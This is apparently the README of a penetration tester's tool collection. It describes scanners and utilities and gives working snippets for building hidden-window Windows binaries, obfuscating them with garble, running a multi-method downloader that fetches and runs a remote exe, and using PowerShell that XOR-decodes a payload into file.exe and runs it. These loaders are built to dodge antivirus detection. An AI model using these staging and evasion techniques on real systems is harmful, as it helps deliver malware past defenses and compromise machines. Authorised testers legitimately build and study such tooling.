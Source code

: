 # Notes
Golang compile with no window
```
GOOS=windows GOARCH=amd64 go build  -ldflags -H=windowsgui -o file.exe file.go
```
Obfuscate build
```
GOOS=windows GOARCH=amd64 ~/go/bin/garble build  -ldflags="-w -s -H=windowsgui" -o file.exe file.go
```

# Anew (python3)

Compares old file to new file, if new file contains lines that dont exist in the old file it will print them to screen for piping into other tools.

# Nessus Merge (python3)

Combines two nessus files into one.

# Hostscan (bash)

Basic scanner for all hosts, can be used as `hostscan.sh 192.168.1.1 "--top-ports 100" "--top-ports 20"` to define the nmap ports you want to scan

# Fileupload, server and client (go)
Small golang script that will allow file uploads to the current dir over https using a baked in key. Client is formatted to perform the upload for you or you can use curl:
```
curl -sk -X POST -H "X-API-Key: Pentest12345" -F "file=@test.txt" -F "filename=test.txt" https://127.0.0.1:8443/files
```

# Multi Downloader (go)
Will try and download an exe from a remote webserver using 4 methods, if any method is successful it will run the file and exit the program, if one fails it will move to the last and finally use certutil (which flags defender) as a last attempt.

# Encode / Decode (go)
## Encode
Encodes a file with xor to file.txt. 
## Decode
Decodes a file.txt with xor to file.exe then runs

## Decode Powershell script
```
$encoded = Get-Content -Path .\file.txt
$decoded = [System.Convert]::FromBase64String($encoded)
$key = [System.Text.Encoding]::ASCII.GetBytes("Pentest12345")
$decodedBytes = for ($i = 0; $i -lt $decoded.Length; $i++) {$decoded[$i] -bxor $key[$i % $key.Length]}
[System.IO.File]::WriteAllBytes(".\file.exe", $decodedBytes)
Start-Process -FilePath .\file.exe

or 

$encodedFile = Get-Content -Path "file.txt" -Raw
$decodedBytes = [System.Convert]::FromBase64String($encodedFile)
$key = [System.Text.Encoding]::ASCII.GetBytes("Pentest12345")
$decoded = [char[]]$decodedBytes
for ($i = 0; $i -lt $decoded.Length; $i++) {
    $decoded[$i] = [char]([byte]$decoded[$i] -bxor $key[$i % $key.Length])
}
$decoded | Out-File -FilePath "file.exe"
```

# Cname Scanner (go)
Checks  a list of domains from stdin, checks the cname, if the cname does not contain the domain name it prints the domain and the cname.
```
cat domains.txt | go run cnamescanner.go
```

# Get HTTP Response (go)
Script that takes a list of urls from stdin, requests the url and writes the response to a file called responses.txt in the format url,base64encoded(response.body) which is useful for monitoring sites or taking a snapshot of the responses for future tests.
